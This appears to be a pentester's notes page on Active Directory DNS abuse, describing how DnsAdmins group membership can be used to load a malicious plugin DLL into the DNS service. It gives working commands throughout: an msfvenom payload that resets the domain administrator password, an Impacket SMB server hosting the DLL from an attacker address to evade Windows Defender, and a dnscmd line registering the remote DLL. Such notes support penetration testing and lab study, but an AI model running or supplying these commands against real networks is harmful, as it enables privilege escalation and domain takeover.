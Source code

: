 +++
title = "Pentest - Active Directory - DNS"
author = ["Kyle Bednar"]
draft = false
+++

## DNS {#dns}


### DNSAdmins {#dnsadmins}

Being a member of the DnsAdmins group allows us to use the `dnscmd.exe` to specify a plugin DLL that should be loaded by the DNS service. Let's create a DLL using msfvenom that changes the administrator password.

```shell { linenos=true, linenostart=1 }
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

```text
Microsoft Windows [Version 10.0.26100.6584]
(c) Microsoft Corporation. All rights reserved.

c:\Users\kdbed\kdbed.github.io\org>msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll

c:\Users\kdbed\kdbed.github.io\org>
```

Transferring this to the box would likely trigger Windows Defender, so we can use Impacket's `smbserver.py` to start an SMB server and host the dll remotely.

```shell { linenos=true, linenostart=1 }
sudo impacket-smbserver share ./
```

Then set the remote DLL path in the Windows registry

```shell { linenos=true, linenostart=1 }
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.9\share\da.dll
```
